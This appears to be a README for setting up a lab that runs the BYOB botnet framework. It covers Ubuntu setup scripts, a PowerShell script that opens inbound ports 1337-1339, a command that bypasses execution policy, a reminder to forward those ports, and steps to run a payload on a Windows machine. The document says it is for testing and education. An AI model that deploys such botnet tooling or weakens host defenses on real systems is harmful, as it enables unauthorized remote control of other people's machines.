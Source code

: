 # Instructions for Ubuntu 20.04

### First, run the following commands:
```
chmod +x before_reboot.sh
chmod +x after_reboot.sh
chmod +x undo.sh
```
### Run the "before_reboot" script:
```
./before_reboot.sh
```
### After rebooting run the "after_reboot" script by:
```
./after_reboot.sh
```

* If you would like to undo all of the changes made in before_reboot & after_reboot run the undo.sh script.

* Please note: during the installation of ./startup.sh for BYOB you may require another reboot if it's your first time running the script.

### Head over to Windows and follow the instructions in the windows-open-ports folder.
* ***Please note:*** if your router doesnt support NAT loopback, this will ONLY work inside your internal network. This is only made for testing and educational purposes. Do not attempt to try this anywhere else without permission as its illegal and you will go to jail. Furthermore, make sure you have all virtual machines set as "bridged" in network settings.

* For automatically opening specific ports on Windows, you can use a PowerShell script. Below is an example script that opens ports 1337, 1338, and 1339 for both TCP and UDP protocols:

* Powershell script:
```
$ports = @(1337, 1338, 1339)
$protocols = @("TCP", "UDP")

ForEach ($port in $ports) {
    ForEach ($protocol in $protocols) {
        $ruleName = "OpenPort-$port-$protocol"
        $existingRule = Get-NetFirewallRule -DisplayName $ruleName -ErrorAction SilentlyContinue
        if (-not $existingRule) {
            New-NetFirewallRule -DisplayName $ruleName -Direction Inbound -Action Allow -Protocol $protocol -LocalPort $port
        }
    }
}
```

* To run the script:
1. Open a text editor and paste the script above.
2. Save the file with a .ps1 extension, e.g., open_ports.ps1.
3. Right-click on the PowerShell icon in the Start menu, and select "Run as administrator."
4. Run this command in powershell to bypass execution policy or else you'll get an error:
```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```
5. Change the directory to where you saved the script, e.g., cd C:\Users\YourUsername\Documents.
6. Navigate to folder with scripts inside, Run the script by typing:
```
.\open_ports.ps1.
```
7. Please note that running PowerShell scripts can potentially harm your system if you don't know the script's source or purpose. Always review scripts before running them and ensure you understand their functionality.

* To undo the changes made in powershell, run the "undo_ports.ps1" file.
1. 
```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```
2. 
* Navigate to folder with scripts inside, Run the script by typing:
```
.\undo_ports.ps1
```

***Be sure to forward ports 1337-1339 in your default gateway.***

***For best use, navigate to the byob/byob directory and run the client.py file using the ip address found in your ubuntu machine. then run server.py and execute the payload on your windows machine.***
```
sudo python3 client.py <ip> <port>
```